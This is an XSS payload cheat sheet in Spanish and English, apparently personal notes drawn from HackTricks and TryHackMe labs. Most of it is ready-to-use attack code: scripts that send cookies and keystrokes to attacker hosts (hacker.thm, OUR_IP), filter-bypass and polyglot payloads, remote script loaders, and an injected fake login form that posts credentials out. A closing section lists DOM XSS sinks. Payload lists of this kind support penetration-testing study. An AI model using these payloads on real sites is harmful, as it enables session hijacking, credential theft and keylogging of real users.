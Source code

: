 ### Hacktricks:

    <img src=x onerror=alert(PAYLOAD)>

#### steal cookie:
    <script>fetch('http://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
    document.location='http://OUR_IP/index.php?c='+document.cookie;
    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
    new Audio().src='http://OUR_IP/index.php?c='+document.cookie;



keylogger
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


quebrar un código JS que recibe el imput
';alert('THM');//

No HTML inject and script clean:
<sSCRIPTcript> </sSCRIPTcript>

Polyglots:

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('porota') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('porota')//>\x3e

probar si se conecta a otro servidor:
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>


fake form

document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');


####################### DOM XSS
Las dom based no hacen transacciones con el back-end, quedan enteramente del lado del cliente. Una buena forma de probarlas es ver si un input que se muestra en la pantalla
no genera una request.
##### armado de payloads:
stored DOM xss:
<><img src=1 onerror=alert(1)>

window.location = nos permite construir un link para redireccionar a la victima a un sitio vulnerable.
innerHTML = permite agrergar un elemento al DOM, no permite agrergar scripts directamente ni svgs, pero podemos utilizar una etiqueta html para ingresar js como:<img src=1 onerror=alert(document.domain)>
eval()= 
###DOM Y JQUERY
attr()=permite modificar un elemento del dom. Podríamos aprovecharnos con un codigo como este: javascript:alert(document.domain)
$(): función selectora, nos permite inyectar objetos en el DOM. Podemos explotarlo creando un Iframe <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">


Sinks más comunes para dom xss:
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

jquery:
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()







